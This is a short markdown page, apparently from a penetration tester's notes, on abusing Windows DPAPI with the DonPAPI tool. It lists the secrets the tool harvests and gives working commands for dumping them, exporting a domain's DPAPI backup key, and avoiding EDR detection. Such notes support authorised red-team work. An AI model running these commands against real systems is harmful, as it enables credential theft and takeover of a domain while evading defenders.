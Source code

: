 ```yaml
---
title: "DPAPI abuse"
date: 2022-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### DPAPI abuse using DonPAPI
Reference: https://github.com/login-securite/DonPAPI

##### Currently gathered information
* Windows credentials (Taskscheduled credentials & a lot more)
* Windows Vaults
* Windows RDP credentials
* AdConnect (still require a manual operation)
* Wifi key
* Intenet explorer Credentials
* Chrome cookies & credentials
* Firefox cookies & credentials
* VNC passwords
* mRemoteNG password (with default config)

##### Example usage
Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


##### Opsec consideration
The RemoteOps part can be spoted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

****